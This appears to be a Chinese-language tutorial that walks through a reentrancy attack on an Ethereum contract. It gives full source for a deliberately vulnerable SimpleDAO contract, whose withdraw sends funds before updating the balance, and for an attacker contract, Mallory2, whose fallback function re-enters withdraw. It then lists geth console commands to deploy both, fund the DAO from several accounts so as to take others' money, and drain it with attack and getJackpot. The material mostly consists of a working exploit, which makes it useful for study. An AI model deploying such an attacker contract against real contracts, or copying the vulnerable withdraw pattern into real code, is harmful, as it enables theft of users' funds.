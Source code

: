 # 准备合约
```
pragma solidity ^0.4.2;

contract SimpleDAO {   
  mapping (address => uint) public credit;
    
    function donate(address to) payable {
    credit[to] += msg.value;
  }
    
  function withdraw(uint amount) {
    if (credit[msg.sender]>= amount) {
      bool res = msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
    }
  }  

  function queryCredit(address to) view returns (uint){
    return credit[to];
  }
}

contract Mallory2 {
  SimpleDAO public dao;
  address owner; 
  bool public performAttack = true;

  function Mallory2(SimpleDAO addr){
    owner = msg.sender;
    dao = addr;
  }
    
  function attack() payable{
    dao.donate.value(1)(this);
    dao.withdraw(1);
  }

  function getJackpot(){
    dao.withdraw(dao.balance);
    bool res = owner.send(this.balance);
    performAttack = true;
  }

  function() payable {
    if (performAttack) {
       performAttack = false;
       dao.withdraw(1);
    }
  }
}
```


# 将合约装载到链上
首先部署simpleDAO, 比如我这里得到的合约实例地址为0x5F3e0Cc753B825d83AFBBcFB4fbF966A6BAf7990。

然后在部署Mallory合约的时候，以上面的合约地址为参数，例如，mal为合约，malins为合约实例，则：
`malins=mal.new('0x5F3e0Cc753B825d83AFBBcFB4fbF966A6BAf7990',{data:bytecode, from:eth.coinbase, gas:10000000})`

# 给simpleDAO充值
`daoins.donate.sendTransaction({from:eth.coinbase,value:100000})`
找多几个账号充值，以拿取别人的金额。

# 发动攻击
先设置defaultAccount，不然在调用的时候会显示invalid address。然后就可以发动攻击。理论上先调用attack，再用getJackpot获取资金。
```
eth.defaultAccount=eth.coinbase
```



